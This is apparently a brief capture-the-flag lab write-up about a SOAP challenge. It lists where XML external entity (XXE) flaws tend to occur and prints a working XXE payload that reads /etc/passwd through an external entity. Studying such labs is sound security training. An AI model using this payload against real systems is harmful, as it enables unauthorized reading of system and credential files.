


### SOAP Challenge 376


Access the lab, on `POST` request, app that supports XML data transfer via a Form HTTP POST, maybe vunerability `XXE`



XXE?
```
Where to find XXE?
    Apps that support XML transports. Examples include:
    An app that supports XML data transfer via a Form HTTP POST
    An app that allows for Microsoft Office Document uploads
    An app that sends XML data via a UDP packet to a server that processes the packet
    Apps that rely on SAML for authentication. SAML uses XML for identity assertions and may be vuln
```

Try some payload `xxe`

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [<!ENTITY abc SYSTEM "file:///etc/passwd">]>
<data>
<ID>&abc;</ID>
</data>
```
